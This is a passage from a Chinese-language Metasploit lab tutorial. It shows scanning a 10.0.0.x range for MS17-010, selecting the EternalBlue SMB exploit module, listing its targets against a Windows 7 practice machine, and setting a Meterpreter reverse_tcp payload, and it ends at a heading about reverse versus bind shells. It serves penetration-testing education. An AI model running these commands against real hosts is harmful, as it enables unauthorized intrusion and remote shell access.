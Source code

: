 3、设置要探测的远程目标：

注：RHOSTS 参数是要探测主机的ip或ip范围，我们探测一个ip范围内的主机是否存在漏洞

```bash
set rhost 10.0.0.1-10.0.0.254
```

4、对上面设置的ip范围内的主机进行攻击：
注：有+号的就是可能存在漏洞的主机，这里有2个主机存在漏洞

```apl
run
```

![image-20250408160119885](https://gitee.com/ljh00928/csdn/raw/master/img/a983bc4d0562bc4f92fb8b0e33dc5924.png)

## 5.Exploit漏洞利用模块

使用`Exploit漏洞利用模块`对漏洞进行利用：

1、选择漏洞攻击模块，对漏洞进行利用：

```apl
use exploit/windows/smb/ms17_010_eternalblue
```

2、查看这个漏洞的信息：

```apl
info
```

3、查看可攻击的系统平台，显示当前攻击模块针对哪些特定操作系统版本、语言版本的系统

```apl
show targets  
```

真好靶机就是Windows7

![image-20250408160928288](https://gitee.com/ljh00928/csdn/raw/master/img/28d51a3c872d2e156fb1dbf8a9349a85.png)

## 6.Payload攻击载荷模块：

攻击载荷是我们期望在目标系统在被渗透攻击之后完成的实际攻击功能的代码，成功渗透目标后，用于在目标系统上运行任意命令。

1、查看攻击载荷：

```apl
show payloads      #该命令可以查看当前漏洞利用模块下可用的所有Payload
```

2、设置攻击载荷：

 ```apl
set payload windows/x64/meterpreter/reverse_tcp
 ```

关于reverse_ tcp与bind _tcp

